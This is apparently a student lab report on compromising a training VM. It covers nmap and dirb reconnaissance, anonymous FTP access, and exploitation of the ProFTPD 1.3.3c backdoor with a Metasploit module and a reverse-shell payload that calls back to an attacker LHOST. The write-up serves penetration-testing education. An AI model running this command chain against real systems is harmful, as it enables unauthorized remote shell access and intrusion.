# Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°216

Targets : webadmin, gain access, root

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```

  
 
Our target is 10.0.2.6 (the others machines is Vbox address). 

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.6
$ sudo nmap -sC -sV -Pn 10.0.2.6
```
  

  

We can see that theses ports are open (all TCP) :

- port 21 — ProFTPD 1.3.3c
- port 22 — OpenSSH 7.2p2 Ubuntu
- port 80 — Apache httpd 2.4.18

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can try to find vulnerabilities on the web server with dirb.

```bash
$ dirb http://10.0.2.6
```
We have a lot of results, some pages are interesting.

   

`http://10.0.2.6` is the main page of the web server.

We can see a secret blog, without any CSS and powered by Wordpress.

Some pages redirecting on `https://vtcsec/secret/index.php`

  

  

  

But nothing can be find on this service.

#### 3.2. Port 22 - SSH

I have tried to connect with ssh with common credentials but nothing happened.

  

#### 3.3. Port 21 - FTP

The main entry point for this machine is the FTP service. We can connect with anonymous user.

```bash
$ ftp 10.0.2.6
```	
  

### 4. Exploit

We can now try to exploit the FTP service.

```bash
$ searchsploit proftpd 1.3.3c
```
or 
```bash
$ msfconsole
> search proftpd 1.3.3c
> use 0
```

  
  

We can see that there is a module for this version of ProFTPD to access to a backdoor.

```bash	
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > options
```

  

We need to set the options (only required) of the exploit.
The RPORT is already set (21).

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 10.0.2.6
```

  

Now, the payload need to be set. We can use a reverse shell after searching with the command :

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
```
  

We can use the payload `cmd/unix/reverse` and set the LHOST.

```bash
set payload cmd/unix/reverse
set LHOST 10.0.2.15
```
Now we can launch the exploit.

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

  


We now have a shell-like on the machine.
We can prove it with the command `whoami`.

Our target is reached.